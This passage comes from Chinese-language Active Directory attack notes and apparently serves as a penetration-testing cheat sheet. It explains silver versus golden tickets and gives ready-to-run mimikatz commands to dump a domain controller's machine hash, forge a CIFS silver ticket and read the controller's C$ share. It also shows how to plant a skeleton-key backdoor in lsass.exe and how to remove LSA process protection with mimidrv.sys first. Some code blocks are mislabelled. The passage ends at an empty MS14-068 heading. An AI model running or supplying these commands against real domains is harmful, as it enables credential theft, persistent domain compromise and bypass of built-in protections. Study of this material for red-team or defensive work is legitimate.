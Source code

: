 





#### 白银票据

黄金票据和白银票据的一些区别：Golden Ticket：伪造TGT，可以获取任何 Kerberos 服务权限，且由 krbtgt 的 hash 加密，金票在使用的过程需要和域控通信

白银票据：伪造 TGS ，只能访问指定的服务，且由服务账号（通常为计算机账户）的 Hash 加密 ，银票在使用的过程不需要同域控通信

```bash
#在域控上导出 DC$ 的 HASH
mimikatz log "privilege::debug" "sekurlsa::logonpasswords"

#利用 DC$ 的 Hash制作一张 cifs 服务的白银票据
kerberos::golden /domain:ABC.COM /sid: S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt

#cifs是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统
dir \\DC.ABC.COM\C$
```



#### skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

```php
Copy#在域控上安装 skeleton key
mimikatz.exe privilege::debug "misc::skeleton"

#在域内其他机器尝试使用 skeleton key 去访问域控，添加的密码是 mimikatz
net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\administrator
```

微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注入。如果直接尝试添加 skelenton key 会失败。

```yaml
Copy#适用系统
windows 8.1
windows server 2012 及以上
```

当然 mimikatz 依旧可以绕过，该功能需要导入mimidrv.sys文件，导入命令如下:

```bash
Copyprivilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton
```





#### MS14-068
